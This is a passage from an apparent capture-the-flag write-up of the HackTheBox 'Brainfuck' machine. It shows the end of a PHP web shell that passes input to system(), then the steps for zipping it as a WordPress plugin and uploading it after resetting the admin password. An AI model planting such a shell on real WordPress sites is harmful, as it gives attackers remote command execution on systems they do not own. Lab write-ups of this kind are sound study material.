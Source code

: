 ```php
    # this is the last resort. chances are PHP Suhosin
    # has system() on a blacklist anyways :>

    # http://php.net/manual/en/function.system.php
    system($command);
  }
}
?>
```

Save this above code as `bubba.php` and make it into a WordPress plugin by packaging the plugin in a zip file. When WordPress receives the zip file, it will extract it into the `wp-content/plugins` directory. Also, WordPress places the contents of the zip file into a folder that matches the name of the zip file itself with a `-1` appended to the end.

- Plugins require certain PHP comments to be considered valid: https://developer.wordpress.org/plugins/plugin-basics/header-requirements/

```bash
zip bubba.zip bubba.php
```

With this ZIP, go to Plugins > Add New > Upload Plugin > Browse > Install Now > Activate Plugin. However, the process hangs on browsing to `https://brainfuck.htb/wp-admin/plugin-install.php`. This may be due to the exploit only giving access to `https://brainfuck.htb/wp-admin/index.php`? Better to change the password of the `admin` user and login in directly. Do this by clicking on `Howdy,admin` in the top right corner > Edit My Profile and changing the password at the bottom:

![admin_password](./brainfuck/admin_password.png)

After logging out and back in with the new password, repeat the steps to install the plugin. However, now there is a new error:

![plugin_error](./brainfuck/plugin_error.png)
